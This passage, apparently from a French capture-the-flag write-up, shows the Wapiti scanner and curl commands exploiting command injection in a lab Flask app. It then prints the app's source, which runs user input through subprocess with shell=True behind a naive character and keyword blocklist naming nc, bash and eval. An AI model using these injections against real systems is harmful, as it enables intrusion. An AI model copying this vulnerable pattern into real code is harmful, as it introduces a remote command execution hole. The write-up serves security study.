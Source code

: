 Wapiti y trouve une faille d'exécution de commande :

```
---
Command execution in http://192.168.242.134:5000/ via injection in the parameter username
Evil request:
    POST /?username=set&password=a HTTP/1.1
    host: 192.168.242.134:5000
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    content-length: 3
    Content-Type: application/x-www-form-urlencoded

    a=1
---
```

J'ai intégré l'utilisation de la commande `set` comme payload il y a un bon moment mais il me semble que cette commande a l'avantage de donner un output à la fois sous Linux et Windows. Sous Linux elle retourne tout ce qui est intégré dans l'environement bash en cours (variables d'environment, fonctions, etc)

On est vite bloqué sur cette RCE qui semble bloquer quelques caractères comme le point virgule :

```shellsession
$ curl -XPOST 'http://192.168.242.134:5000/?username=ls;id&password='
Access Denied!!
```

Mais on peut en savoir plus sur les restrictions en récupérant le code source :

```python
$ curl -XPOST 'http://192.168.242.134:5000/?username=cat+app.py&password='
import subprocess
from flask import Flask, request


app = Flask(__name__)
app.secret_key = "key"


RCE = ["|", "*", "^", "$", ";", "nc", "bash", "bin", "eval",  "python"]


def validate(cmd):
    try:
        for i in RCE:
            if i in cmd:
                return False
        return True
    except Exception:
        return False


@app.route("/", methods=["POST"])
def index():
    command = request.args.get("username")
    if validate(command):
        output = subprocess.Popen(command, shell=True,
                                  stdout=subprocess.PIPE).stdout.read()
    else:
        output = "Access Denied!!"
    return output
```
